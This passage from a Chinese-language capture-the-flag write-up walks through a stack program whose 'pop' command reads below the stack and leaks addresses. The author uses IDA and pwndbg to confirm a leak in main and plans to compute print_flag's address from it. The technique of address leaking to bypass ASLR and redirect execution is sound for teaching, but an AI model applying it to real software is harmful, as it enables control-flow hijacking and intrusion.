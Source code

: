 ```shell
Popped -2 from stack
>> pop
Popped 64 from stack
>> pop
Popped 93824992236703 from stack
>> pop
Popped 93824992236340 from stack
>> pop
Popped 140737488346056 from stack
>> pop
Popped 140737488345776 from stack
>> pop
Popped 140737488345776 from stack
>> 
```
他噴了很多奇怪的東西，但是不知道那些是什麼
用 ida 看程式結構以及 memory 
![image](https://hackmd.io/_uploads/BJz6GW79Jx.png)
看到程式的反編譯碼
![image](https://hackmd.io/_uploads/B1ukmbX9ye.png)
點到 stack 的　memory　可以看到附近的東西
- 在程式碼中他的型別是用 int64 所以噴出來得東西應該是十進位的，所以我們把他的值轉成 16 進位看看
```cpp
    int64_t stack[MAX_STACK_SIZE];
    int64_t top = -1;
    int64_t value;
```
```shell
Commands: 'push <value>', 'pop', 'show', 'help', or 'exit'
>> pop
Popped -2 from stack
>> pop
Popped 64 from stack
>> pop
Popped 93824992236703 from stack # 55555555549F
>> pop
Popped 93824992236340 from stack # 555555555334
>> pop
Popped 140737488346056 from stack # 7FFFFFFFDBC8
>> pop
Popped 140737488345776 from stack # 7FFFFFFFDAB0
>> pop
Popped 140737488345776 from stack # 7FFFFFFFDAB0
>> 
```
看起來很像程式的 address，那我們用 gdb 進去看看
```gdb
pwndbg> x/10i 0x55555555549F
   0x55555555549f <main+363>:   test   eax,eax
   0x5555555554a1 <main+365>:   jne    0x5555555554d9 <main+421>
   0x5555555554a3 <main+367>:   mov    rax,QWORD PTR [rbp-0xf8]
   0x5555555554aa <main+374>:   lea    rdx,[rax-0x1]
   0x5555555554ae <main+378>:   mov    QWORD PTR [rbp-0xf8],rdx
   0x5555555554b5 <main+385>:   mov    rax,QWORD PTR [rbp+rax*8-0xf0]
   0x5555555554bd <main+393>:   mov    rsi,rax
   0x5555555554c0 <main+396>:   lea    rax,[rip+0xbc4]        # 0x55555555608b
   0x5555555554c7 <main+403>:   mov    rdi,rax
   0x5555555554ca <main+406>:   mov    eax,0x0
```
確實他是程式中的位置，並且是在 main function 裡面
- 那就可以用這個 leak 出來的地址加上 offset 算出 print_flag 的位置，再想辦法跳過去執行
